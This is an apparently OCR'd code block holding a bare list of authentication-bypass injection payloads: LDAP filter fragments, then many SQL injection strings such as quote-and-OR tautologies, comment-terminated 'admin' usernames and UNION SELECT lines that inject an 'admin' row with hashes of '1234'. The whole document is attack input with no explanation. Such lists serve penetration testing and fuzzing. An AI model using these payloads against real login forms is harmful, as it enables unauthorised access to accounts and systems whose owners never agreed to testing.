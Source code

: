```
admin)(!(&(|
pwd))
admin))(|(|
1234
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
1234 ' AND 1=0 UNION ALL SELECT 'admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
admin" --
admin" #
```